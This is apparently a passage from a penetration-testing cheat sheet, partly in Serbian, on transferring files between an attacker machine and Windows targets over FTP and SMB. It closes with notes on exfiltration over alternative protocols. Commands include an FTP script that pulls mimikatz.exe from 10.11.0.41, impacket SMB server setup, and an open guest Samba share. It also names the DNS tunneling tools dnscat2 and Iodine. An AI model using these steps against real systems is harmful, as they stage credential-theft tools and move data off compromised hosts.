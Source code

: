### **Windows** klijent

```bash
#Work well with python. With pure-ftp use fusr:ftp
echo open 10.11.0.41 21 > ftp.txt
echo USER anonymous >> ftp.txt
echo anonymous >> ftp.txt
echo bin >> ftp.txt
echo GET mimikatz.exe >> ftp.txt
echo bye >> ftp.txt
ftp -n -v -s:ftp.txt
```

## SMB

Kali kao server

```bash
kali_op1> impacket-smbserver -smb2support kali `pwd` # Share current directory
kali_op2> smbserver.py -smb2support name /path/folder # Share a folder
#For new Win10 versions
impacket-smbserver -smb2support -user test -password test test `pwd`
```

Ili kreirajte smb deljenje **koristeći sambu**:

```bash
apt-get install samba
mkdir /tmp/smb
chmod 777 /tmp/smb
#Add to the end of /etc/samba/smb.conf this:
[public]
comment = Samba on Ubuntu
path = /tmp/smb
read only = no
browsable = yes
guest ok = Yes
#Start samba
service smbd restart
```

Windows

***

### Exfiltration

#### Exfiltration Over Alternative Protocol

1.  **Description**

    Data exfiltration can be achieved using various protocols other than HTTP/HTTPS, such as DNS, ICMP, or SMTP.
2. **Detection**
   * Monitor network traffic for unusual DNS requests, especially those containing encoded data.
   * Look for abnormal ICMP or SMTP traffic patterns.
   * Implement egress filtering to restrict unnecessary outbound traffic.
3. **Prevention**
   * Use encryption to protect data in transit.
   * Implement network segmentation to limit lateral movement.
   * Disable unnecessary services and protocols to reduce attack surface.
4. **Tools**
   * **dnscat2**: A tool for tunneling data through DNS servers.
   * **Iodine**: A tool for tunneling IPv4 data through a DNS server.
